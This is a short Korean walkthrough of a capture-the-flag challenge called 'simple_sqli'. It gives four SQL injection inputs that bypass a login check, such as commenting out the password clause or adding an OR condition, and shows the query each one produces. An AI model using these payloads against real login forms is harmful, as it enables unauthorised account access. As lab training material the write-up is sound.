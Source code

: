 #simple_sqli 풀이법

---

ID: admin, PW: DUMMY
userid 검색 조건만을 처리하도록, 뒤의 내용은 주석처리하는 방식

    SELECT * FROM users WHERE userid="admin"-- " AND userpassword="DUMMY"

ID: admin" or "1 , PW: DUMMY
userid 검색 조건 뒤에 OR (또는) 조건을 추가하여 뒷 내용이 무엇이든, admin 이 반환되도록 하는 방식

    SELECT * FROM users WHERE userid="admin" or "1" AND userpassword="DUMMY"

ID: admin, PW: DUMMY" or userid="admin
userid 검색 조건에 admin을 입력하고, userpassword 조건에 임의 값을 입력한 뒤 or 조건을 추가하여 userid가 admin인 것을 반환하도록 하는 방식

    SELECT * FROM users WHERE userid="admin" AND userpassword="DUMMY" or userid="admin"

ID: " or 1 LIMIT 1,1-- , PW: DUMMY
userid 검색 조건 뒤에 or 1을 추가하여, 테이블의 모든 내용을 반환토록 하고 LIMIT 절을 이용해 두 번째 Row인 admin을 반환토록 하는 방식

    SELECT * FROM users WHERE userid="" or 1 LIMIT 1,1-- " AND userpassword="DUMMY"

---

위의 방식 중 원하는 걸 쓰면 된다.
